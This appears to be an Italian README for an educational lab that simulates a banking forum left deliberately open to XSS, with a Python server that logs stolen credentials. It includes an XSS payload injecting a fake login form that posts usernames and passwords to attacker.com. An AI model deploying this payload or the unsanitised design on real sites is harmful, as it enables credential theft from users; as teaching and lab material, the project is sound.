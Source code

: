 # Progetto di Sicurezza Informatica: Vulnerabilità XSS e Sniffing

[![Security](https://img.shields.io/badge/domain-Cybersecurity-red)]()
[![Web Security](https://img.shields.io/badge/focus-Web%20Security-orange)]()
[![Penetration Testing](https://img.shields.io/badge/approach-Penetration%20Testing-yellow)]()
[![OWASP](https://img.shields.io/badge/standard-OWASP%20Top%2010-blue)](https://owasp.org/www-project-top-ten/)
[![PHP](https://img.shields.io/badge/PHP-8.0+-777BB4?logo=php)]()
[![Python](https://img.shields.io/badge/Python-3.8+-3776AB?logo=python)]()
[![MySQL](https://img.shields.io/badge/MySQL-8.0-4479A1?logo=mysql)]()
[![Docker](https://img.shields.io/badge/Docker-20.10+-2496ED?logo=docker)]()

## Descrizione del Progetto

Questo progetto dimostra due vulnerabilità comuni nello sviluppo web:
1. **Cross-Site Scripting (XSS)**: Un attacco che permette l'esecuzione di codice JavaScript malevolo nel contesto di un'applicazione web
2. **Sniffing di credenziali**: Un attacco che intercetta e registra dati sensibili inviati tramite form

Il progetto simula un forum bancario vulnerabile a XSS, con un server aggiuntivo che cattura le credenziali inviate tramite un form compromesso.

## Componenti

1. **Servizio Web (Apache/PHP)**
   - Forum bancario vulnerabile a XSS
   - Connessione a database MySQL
   - Nessuna sanificazione degli input/output

2. **Database MySQL**
   - Contiene una tabella `comments` per memorizzare i post del forum

3. **Server di Sniffing (Python)**
   - In ascolto sulla porta 5000
   - Cattura e registra le credenziali inviate via POST
  
## Autori
- Carlo Da Roma
- [Piolo Llanos](https://github.com/pioloLlanos)

## Vulnerabilità Implementate

### 1. Cross-Site Scripting (XSS)
- **Posizione**: Input del commento e visualizzazione nel forum
- **Esempio di payload**:
  ```html
  <script>alert('XSS Attack!')</script>
  ```
  ```html
  <script>
    document.write('<form action="http://attacker.com/steal" method="post">' +
                   '<input type="text" name="username" placeholder="Username">' +
                   '<input type="password" name="password" placeholder="Password">' +
                   '<input type="submit" value="Submit"></form>');
  </script>
  ```

### 2. Sniffing di Credenziali
- Il server Python (`app.py`) registra tutte le coppie username/password inviate via POST
- I dati vengono salvati in `sniffed.txt`
- Per non far riuscire il pop up ad utenti che hanno già eseguito il login abbiamo deciso di salvare delle variabili interne al browser.

## Configurazione e Avvio

1. **Prerequisiti**:
   - Docker e Docker Compose installati

2. **Avvio dei servizi**:
   ```bash
   docker-compose up --build
   docker-compose ps
   ```

3. **Accesso all'applicazione**:
   - Forum bancario: http://localhost
   - Server di sniffing: http://localhost:5000 (solo per invio dati)

4. **Ripristino**:
   ```bash
   sudo docker-compose down -v
   ```
---

<sub><i>last update 20/06/2025</i></sub>
